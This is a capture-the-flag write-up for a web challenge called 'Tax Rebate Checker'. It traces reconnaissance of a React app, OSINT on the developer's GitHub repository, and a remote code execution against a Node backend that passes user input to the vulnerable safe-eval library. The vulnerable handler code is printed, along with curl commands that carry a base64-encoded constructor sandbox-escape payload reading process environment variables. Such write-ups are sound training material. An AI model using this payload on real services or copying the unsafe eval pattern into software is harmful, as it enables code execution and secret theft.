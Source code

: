 # Hold the line! Perimeter defences doing it's work!
*Apparently, the lead engineer left the company (“Safe Online Technologies”). He was a talented engineer and worked on many projects relating to Smart City. He goes by the handle c0v1d-agent-1. Everyone didn't know what this meant until COViD struck us by surprise. We received a tip-off from his colleagues that he has been using vulnerable code segments in one of a project he was working on! Can you take a look at his latest work and determine the impact of his actions! Let us know if such an application can be exploited!*

*[Tax Rebate Checker](http://z8ggp.tax-rebate-checker.cf/)*

### Challenge analysis
- This just seems to be an ordinary application hosted on the website, and looking from the source code (`main.js`) we can rougly tell that it is a React App.
- We have no choice but to look deeper into the source of the application, by formatting the code nicely and taking a better look.
- There is an interesting string in the application that appears twice: (although not important for this challenge; red herring) ```SECRET_DO_NOT_PASS_THIS_OR_YOU_WILL_BE_FIRED```
- Other than that, there isn't anything else interesting in the source code.

### RCE?!
- However, we do find an API gateway URL hidden inside the source, and is presumably the backend url to calculate the amount of tax rebate. (`https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`)
- The server accepts a JSON-encoded payload with 2 base-64 encoding string keys, `age` and `salary`.
- By trial and error, we find out that the formula is roughly `age + salary * PI`.
- We also notice that when we put an addition string into age (e.g. `1+1`), the value is treated as 2, meaning that the server actually evaluates the expression!
- Hence, we just need to perform some kind of remote code execution (RCE) on the system to obtain the flag.
- Through much trying and testing again, we realise that there is an unfortunate limit of 50 characters on the JSON payload, which include both the age and salary key names and their base-64 encoded values.
- Thus, it would be unlikely to find any useful information with the limited input size
- We did manage to obtain the local variable information using this payload for age: `Object.keys(this)` (this info is useful later on)  
```$ curl -X POST https://af7jsq9nlh.execute-api.ap-socom/prod/tax-rebate-checker -H "Content-Type: application/json" -d '{"age":"T2JqZWN0LmtleXModGhpcyk","salary":"MA"}'```  
```{"results":"SAFE_EVAL_227291,person,gc0"}```
- And the properties of `person` as well:
```$ curl -X POST https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker -H "Content-Type: application/json" -d '{"age":"T2JqZWN0LmtleXMocGVyc29uKQ","salary":"MA"}'```   
```{"results":"code0"}```
- Unfortunately, `person.code` is actually just the value of Pi, and our clues end here.

### Git Good
- We have to find other clues in the challenge, and in the challenge description it mentioned something about a handle.
- This leads us to suspect that the engineer has a profile somewhere on the internet, and as a software developer the likley platform would be GitHub.
- A quick search on GitHub yielded a [user profile](https://github.com/c0v1d-agent-1) that has the same name as his handle.  
![](image0.png)
- The user also had a repo with the exact name as the webpage, `tax-rebate-checker`
- Time to look at the repo!

### Testing in Production
- The repo contains an `index.js` file, upon inspection seems to be the backend server code for the API gateway.

```js
'use strict';
var safeEval = require('safe-eval')
exports.handler = async (event) => {
    let responseBody = {
        results: "Error!"
    };
    let responseCode = 200;
    try {
        if (event.body) {
            let body = JSON.parse(event.body);
            // Secret Formula
            let context = {person: {code: 3.141592653589793238462}};
            let taxRebate = safeEval((new Buffer(body.age, 'base64')).toString('ascii') + " + " + (new Buffer(body.salary, 'base64')).toString('ascii') + " * person.code",context);
            responseBody = {
                    results: taxRebate
            };
        }
    } catch (err) {
        responseCode = 500;
    }
    let response = {
        statusCode: responseCode,
        headers: {
            "x-custom-header" : "tax-rebate-checker"
        },
        body: JSON.stringify(responseBody)
    };
    return response;
};
```
- Nothing really out of the normal here, but we do notice the use of the `safe-eval` library which is prone to RCE as seen [here](https://snyk.io/vuln/SNYK-JS-SAFEEVAL-608076) and [here](https://www.cvedetails.com/cve/CVE-2017-16088/)
- Looking at the commit history, we find the frontend code that was removed from the repo, and sadly to find nothing again in particular.
- An interesting find was in the [Issues](https://github.com/c0v1d-agent-1/tax-rebate-checker/issues/1) tab of the repo, which had 1 issue that described a vulnerable library (should be referring to `safe-eval`)
- Thus, we should sent requests instead to the `/staging/` endpoint instead of the `/prod/` one used earlier, which now should not have the length restrictions.
- Creating and modifying our payload from common RCE payloads, then submitting the request, we obtain the solution to this challenge.

Payload: `this.constructor.constructor("return process.env.flag")`  

Command: ```curl -X POST https://af7jsq9nlh.execute-api.ap-southeast-1.amazonawcom/staging/tax-rebate-checker -d '{"age":"dGhpcy5jb25zdHJ1Y3Rvci5jb25zdHJ1Y3RvcigicmV0dXJuIHByb2Nlc3MuZW52LmZsYWciKSgp","salary":"MA"}'```  
```{"results":"3nv_L0oK$-G$$D!0"}```

### Flag
```govtech-csg{3nv_L0oK$-G$$D!}```

### Learning Outcomes
1. There can be hints and clues hidden inside the challenge description itself, so do not spend too much time getting stuck on one part, but rather approach the challenge from a different angle.
2. Much trial and error is needed for this challenge, hence perseverance is very important to not give up and try until you get the results that you want.
3. Many other skills such as OSINT and Web/RCE are required for this challenge, it is always great to be well prepared for anything coming in your way and seek help from teammates whenever necessary.


